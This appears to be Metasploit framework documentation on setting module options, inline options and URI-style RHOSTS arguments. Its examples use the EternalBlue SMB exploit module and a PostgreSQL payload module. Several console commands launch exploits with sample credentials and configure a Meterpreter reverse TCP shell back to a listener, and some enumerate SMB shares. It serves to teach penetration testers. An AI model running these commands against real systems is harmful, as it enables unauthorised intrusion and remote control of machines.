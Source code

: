 ## Module options

Each Metasploit module has a set of options which must be set before running. These can be seen with the `show options` or `options` command:

```msf
msf6 exploit(windows/smb/ms17_010_eternalblue) > options

Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS                          yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT          445              yes       The target port (TCP)
   SMBDomain                       no        (Optional) The Windows domain to use for authentication. Only affects Windows Server 2008 R2, Windows 7, Windows Embedded Standard 7 target machines.
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   ... etc ...


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.1.239    yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic Target
```

Each Metasploit module also has _advanced_ options, which can often be useful for fine-tuning modules, in particular setting connection timeouts values can be useful:

```msf
msf6 exploit(windows/smb/ms17_010_eternalblue) > advanced

Module advanced options (exploit/windows/smb/ms17_010_eternalblue):

   Name                    Current Setting                     Required  Description
   ----                    ---------------                     --------  -----------
   CHOST                                                       no        The local client address
   CPORT                                                       no        The local client port
   CheckModule             auxiliary/scanner/smb/smb_ms17_010  yes       Module to check with
   ConnectTimeout          10                                  yes       Maximum number of seconds to establish a TCP connection
   ... etc ...

Payload advanced options (windows/x64/meterpreter/reverse_tcp):

   Name                         Current Setting  Required  Description
   ----                         ---------------  --------  -----------
   AutoLoadStdapi               true             yes       Automatically load the Stdapi extension
   AutoRunScript                                 no        A script to run automatically on session creation.
   AutoSystemInfo               true             yes       Automatically capture system information on
   ... etc ...
```

You can see which options stilloptions to be set with the `show missing` command:

```msf
msf6 exploit(windows/smb/ms17_010_eternalblue) > show missing

Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS                   yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
```

### Setting options

Traditional usage of Metasploit involves loading a module, and setting multiple options individually:

```
use exploit/linux/postgres/postgres_payload
set username administrator
set password pass
set rhost 192.168.123.6
set rport 5432
set database postgres
set lhost 192.168.123.1
set lport 5000
run
```

You can also specify multiple RHOSTS separated by spaces or with a CIDR subnet mask:

```
set rhosts 127.0.0.1 127.0.0.2
set rhosts 127.0.0.1/24
```

In 2021 support for running a module and specifying module options at the same time was added, dubbed inline option support. This workflow will not only make it easier to use `reverse-i-search` with `CTRL+R` in Metasploit's console, but it will also make it easier to share cheat sheets amongst pentesters.

Example:

```
use exploit/linux/postgres/postgres_payload
run postgres://postgres:password@192.168.123.6 lhost=192.168.123.1 lport=5000 payload=linux/x64/meterpreter/reverse_tcp target='Linux\ x86_64' verbose=true
```

### URI support for RHOSTS

Metasploit also supports the use of [URI](https://en.wikipedia.org/wiki/Uniform_Resource_Identifier) strings as arguments,
which allows setting multiple options at once - i.e. username, password, rport, rhost, etc.

```
use exploit/linux/postgres/postgres_payload
run postgres://administrator:pass@192.168.123.6 lhost=192.168.123.1 lport=5000
```

The following protocols are currently supported, and described in more detail below:

- cidr - Can be combined with other protocols to specify address subnet mask length
- file - Load a series of RHOST values separated by newlines from a file. This file can also include URI strings
- http
- https
- mysql
- postgres
- smb
- ssh

To preserve whitespace, regardless of the protocol, use quotes:

```
use auxiliary/admin/postgres/postgres_sql
run 'postgres://user:this is my password@192.168.1.123/database_name' sql='select version()'
```

In some scenarios it may be too troublesome to escape quotes within a password. In this scenario it is possible to still set the password option manually and use the URI argument without a password specified, the module will gracefully fallback to using the manually set password:

```
set password !@£$%^&*()"'
run smb://user@192.168.123.13
```

You can also specify multiple RHOST arguments, as well as provide additionally inlined options:

```
use scanner/smb/smb_enumshares
run smb://test:test@192.168.1.223 smb://user:password@192.168.1.223 smb://test:test@127.0.0.1 verbose=true
```
